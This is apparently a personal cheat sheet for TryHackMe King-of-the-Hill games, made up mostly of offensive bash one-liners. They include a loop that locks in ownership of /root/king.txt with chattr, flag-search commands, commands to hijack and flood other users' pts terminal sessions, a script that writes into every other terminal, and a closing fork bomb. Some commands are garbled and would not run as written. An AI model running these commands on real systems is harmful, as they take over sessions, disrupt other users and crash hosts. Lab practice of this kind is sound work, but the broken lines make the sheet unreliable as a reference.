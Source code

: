 
> # __Rj Raju__

# __King-Bot__

# This is My TryHackMe Cheat Sheet

# While [ Loop ]
```bash
while [ 1 ]; do chattr -i /root/king.txt 2>/dev/nulll; echo RjRaju > /root/king.txt;  chattr +i /root/king.txt 2>/dev/null; done
```

# Find Flag
```bash
find 2>/dev/null | while read line; do busybox strings $line | grep -oE "[0-9a-f]{32}" ;done

find -name "*flag*" | while read line; do strings $line; do | grep thm

find / -type f -name flag* -exec cat {} \; 2>/dev/null

find / -type f -name flag* 2>/dev/null

grep -rnw . -e 'thm{[0-9,a-z]*}'

grep -RoE "thm\{.*"

find -name "*flag*.txt"
```

# python $6$
```python
import crypt
crypt.crupt("raju")
```

# Hijack pts sessions
```bash
script /dev/pts/2
```

# pts sessions spam
```bash
cat < /dev/pts/2
mesg n
w
```

# get the proccess ID of the pty .
```bash
ps -t pts/2
```

# script
```bash
#!/bin/bash
US=$(tty | cut -c 6-)

w | grep -v "$US" | grep -v "115" | grep pts | awk '{print $2}' | while read line; do
    cat /dev/null > /dev/$line &
done
```

# Stabilize shell
```bash
/usr/bin/script -qc /bin/bash /dev/null
```

# Fun
```bash
apt install terminal-parrot
apt install nyancat
apt install cmatrix
apt install sl
```

# End-Game

:(){ :|: & };:
